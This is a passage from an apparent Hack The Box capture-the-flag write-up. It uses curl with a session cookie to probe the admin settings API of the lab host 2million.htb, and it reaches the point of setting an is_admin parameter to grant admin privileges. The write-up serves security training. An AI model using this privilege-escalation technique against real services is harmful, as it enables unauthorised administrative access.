`/settings/update` :

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -d ""
```

```
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> Cookie: PHPSESSID=877le0dr37hcm1p5bgbbvg8bte
> Content-Type: application/x-www-form-urlencoded
> ...
>
< HTTP/1.1 200 OK
< Server: nginx
< Content-Type: application/json
< ...

{"status":"danger","message":"Invalid content type."}
```

Ok, the content type of our request is wrong. Let's try to use `application/json` instead of the curl default (`application/x-www-form-urlencoded`):

```
curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json" -d ""
```

```
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> Cookie: PHPSESSID=877le0dr37hcm1p5bgbbvg8bte
> Content-Type: application/json
> ...
>
< HTTP/1.1 200 OK
< Server: nginx
< Content-Type: application/json
< ...
<

{"status":"danger","message":"Missing parameter: email"}⏎
```

We need a email in the request body. Let's do it!

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie
 "PHPSESSID=877le0dr37hcm1p5bgbbvg8bte" -H "Content-Type: application/json"  -d '{"email":"tandera@gmail.com"}'
{"status":"danger","message":"Missing parameter: is_admin"}
```

If we set the `is_admin` property to `1`, our user gets admin privileges! 
